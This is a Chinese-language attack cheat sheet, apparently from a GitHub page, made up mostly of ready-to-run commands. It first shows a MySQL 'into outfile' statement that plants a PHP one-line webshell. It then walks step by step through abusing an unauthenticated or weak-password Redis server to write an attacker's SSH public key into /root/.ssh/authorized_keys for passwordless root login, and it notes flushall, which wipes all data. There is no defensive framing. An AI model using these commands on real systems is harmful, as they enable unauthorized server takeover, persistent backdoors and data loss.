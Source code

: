 
- 写入一句话木马

  ```
  select "<?php eval($_REQUEST[8])?>" into outfile '../../../../php/a.php";
  ```



# redis获取ssh免密码登录权限

> 前提：redis是以root权限运行
> 
> 无root权限也可以尝试往常用网站目录写入一句话木马

## 利用
- 建立tcp连接

  `nc`可用`telnet`or`netcat`替代

```bash
nc 127.0.0.1 port
```

- 弱口令情况下(未授权不用)

```
auth 密码
```

- 设置写入路径与文件名称

```
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
```

- 找一个不在使用的数据库，不对目标数据造成影响

  redis数据库取值范围：0-15

```
select 15
```
执行`keys *`，出现`*0`则代表里面没有数据，`flushall`可清空数据库所有数据


- 将自己的公钥`~/.ssh/id_rsa.pub`配置到目标服务器

  命令格式：set 【键】【值】

```
set "abc" "ssh-rsa AAAAB3NzaC1y........"
```

- 持久化保存

```
save
exit
```
